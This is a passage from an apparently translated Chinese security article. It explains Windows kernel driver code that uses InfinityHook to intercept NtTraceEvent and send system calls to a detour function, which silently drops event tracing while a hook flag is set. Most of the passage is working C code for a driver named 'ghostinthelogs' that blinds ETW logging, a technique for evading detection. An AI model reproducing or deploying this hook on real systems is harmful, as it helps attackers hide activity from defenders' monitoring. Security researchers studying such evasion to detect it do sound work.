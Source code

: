 ```
    `}`

    if (!OriginalNtTraceEvent)
    `{`
        DbgPrintEx(DPFLTR_DEFAULT_ID, DPFLTR_INFO_LEVEL, "[-] infinityhook: Failed to locate export: %wZ.n", StringNtTraceEvent);
        return STATUS_ENTRYPOINT_NOT_FOUND;
    `}`

    RtlInitUnicodeString(&amp;drvName, L"\Driver\ghostinthelogs");
    status = OriginalIoCreateDriver(&amp;drvName, &amp;DriverInitialize);

    DbgPrintEx(DPFLTR_DEFAULT_ID, DPFLTR_INFO_LEVEL, "[+] Called OriginalIoCreateDriver status: 0x%Xn", status);

    NTSTATUS Status = IfhInitialize(SyscallStub);
    if (!NT_SUCCESS(Status))
    `{`
        DbgPrintEx(DPFLTR_DEFAULT_ID, DPFLTR_INFO_LEVEL, "[-] infinityhook: Failed to initialize with status: 0x%lx.n", Status);
    `}`

    return Status;
`}`
```

找到输出并获得有效的**DriverObject**后，我们可以使用**InfinityHook**初始化**NtTraceEvent**的hook函数。**IfhInitialize**函数执行此操作。调用**IfhInitialize**并给它传递指针。每次进行系统调用时都会命中此回调函数。我们给回调函数提供指向将要调用的函数地址的指针。可以访问该指针意味着我们可以将其更改为指向hook函数的地址。回调代码如下所示。

```
void __fastcall SyscallStub(
    _In_ unsigned int SystemCallIndex,
    _Inout_ void** SystemCallFunction)
`{`
    UNREFERENCED_PARAMETER(SystemCallIndex);

    if (*SystemCallFunction == OriginalNtTraceEvent)
    `{`
        *SystemCallFunction = DetourNtTraceEvent;
    `}`
`}`
```

此代码会将每个NtTraceEvent的调用都重定向到我们的DetourNtTraceEvent。DetourNtTraceEvent的代码如下所示。

```
NTSTATUS DetourNtTraceEvent(
    _In_ PHANDLE TraceHandle,
    _In_ ULONG Flags,
    _In_ ULONG FieldSize,
    _In_ PVOID Fields)
`{`
    if (HOOK_STATUS == 0)
    `{`
        return OriginalNtTraceEvent(TraceHandle, Flags, FieldSize, Fields);
    `}`
    return STATUS_SUCCESS;
`}`
```
